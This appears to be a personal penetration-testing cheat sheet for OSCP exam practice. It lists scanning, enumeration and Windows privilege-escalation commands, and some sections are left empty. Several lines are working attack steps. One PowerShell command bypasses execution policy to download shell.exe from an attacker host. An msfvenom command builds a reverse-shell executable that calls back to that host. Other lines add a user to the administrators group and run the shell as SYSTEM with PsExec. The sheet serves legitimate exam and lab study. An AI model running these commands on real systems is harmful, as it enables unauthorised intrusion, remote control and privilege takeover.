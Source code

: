 # Pentest Toolkit / OSCP Cheatsheet

imma just throw things that work in here

# Table of Contents

+ [Reconaissance](#reconaissance)
    1. [Port Scanning](#port-scanning)
    2. [Directory Enumeration](#directory-enumeration)
    3. [Header Analysis](#header-analysis)
+ [Exploitation](#exploitation)
+ [Post-Exploitation Enumeration](#post-exploitation)
+ [Privilege Escalation](#privilege-escalation)
    1. [Linux](#linux-privesc)
    2. [Windows](#windows-privesc)
        - The Basics
        - Payloads
        - Privesc Enumeration Tools


## Reconaissance

### Port Scanning
#### Full TCP scan
```bash
sudo nmap -sC -sV -O --open -p- -oA full-tcp [targets]
```

#### Full UDP Scanning
```bash
sudo nmap -sU -p- -oA full-udp [targets]
```

#### NSE Scripts with Ports
```bash
sudo nmap --scripts vuln,safe,discovery -p \[ports] [targets]
```

### Directory Enumeration
```bash
dirb 10.10.10.2 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt 
```

### Header Analysis

## Exploitation
## Post-Exploitation

### File Transfers

#### From Cmd.exe

```bash
powershell -ExecutionPolicy bypass -noprofile -c (New-Object System.Net.WebClient).DownloadFile('http://10.10.10.2:8080/shell.exe','C:\Users\Public\shell.exe')
```


## Privilege Escalation 

### Linux Privesc

First and foremost, [g0tmi1k's blog](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation) is more comprehensive than the commands I will list here.

### Windows Privesc

[FuzzySecurity's blog post](https://www.fuzzysecurity.com/tutorials/16.html)

[Tib3rius's Windows PrivEsc course](https://www.udemy.com/course/windows-privilege-escalation/)
- **The Basics**

**Your User**
```bash
whoami
whoami /priv
net user [user]
```
**System Config**
```bash
systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
ipconfig /all
netstat -ano
tasklist /SVC
```


- **Payloads**

### msfvenom executable payload

```bash
msfvenom -p windows/shell\_reverse\_tcp LHOST=10.10.10.2 LPORT=4444 -f exe -o reverse.exe
```

RDP- add user to administrators group first

```bash
net localgroup administrators [user] /add
```

PsExec from Windows Sysinternals

```bash
.\PsExec64.exe -accepteula -i -s C:\temp\reverse.exe
```

- **PrivEsc Enumeration Tools**

[Windows  Exploit Suggester](https://github.com/GDSSecurity/Windows-Exploit-Suggester.git)
```bash
git clone https://github.com/GDSSecurity/Windows-Exploit-Suggester.git
cd Windows-Exploit-Suggester/
python2 windows-exploit-suggester.py --update

cmd.exe /c systeminfo > systeminfo.txt
```

[PowerUp](https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1):
```bash
powershell -exec bypass
. .\PowerUp.ps1
Invoke-Allchecks
```

[SharpUp](https://github.com/GhostPack/SharpUp):
```bash
.\SharpUp.exe
```

[SeatBelt](https://github.com/GhostPack/Seatbelt) (more verbose, less targeted at privesc):
```bash
.\SeatBelt.exe all
.\SeatBelt.exe Nonstandard
```

[winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS):
List checks
```bash
.\winPEASany.exe -h
```
Single check
```bash
.\winPEASany.exe userinfo
```
All checks
```bash
.\winPEASany.exe
```


